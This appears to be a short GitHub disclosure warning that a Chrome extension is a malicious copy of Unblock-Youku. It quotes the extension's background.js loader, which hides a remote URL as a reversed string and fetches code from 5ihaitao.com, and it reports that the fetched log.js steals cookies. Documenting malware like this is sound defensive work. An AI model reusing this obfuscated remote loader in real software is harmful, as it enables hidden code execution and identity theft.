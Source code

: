 Name: 优酷土豆海外播放

CWS ID: aeocankoflefcaiabdkdjkenofcpjagb

Homepage: `https://chrome.google.com/webstore/detail/%E4%BC%98%E9%85%B7%E5%9C%9F%E8%B1%86%E6%B5%B7%E5%A4%96%E6%92%AD%E6%94%BE/aeocankoflefcaiabdkdjkenofcpjagb`

This is a malicious copy the extension Unblock-Youku (ID: pdnfnkhpgegpcingjbfihlkjeighnddk).

In its background.js file, you can find

```javascript
function chk() {
    var a = new XMLHttpRequest;
    a.onreadystatechange = function () {
        4 == a.readyState && (localStorage.updated = a.responseText)
    };
    a.open("GET", "sj.gol/gol/moc.oatiahi5.emorhc//:ptth".split("").reverse().join(""), !0);
    a.send(null)
}
```

It will download arbitrary javascript code from their server `5ihaitao.com`, and execute it on your local computers.

The current version of the log.js file is kept a record in this folder.

You can check that the log.js file actually gets and manipulates users' website cookies, which can actually steal your online indentities and leak your private and important information.
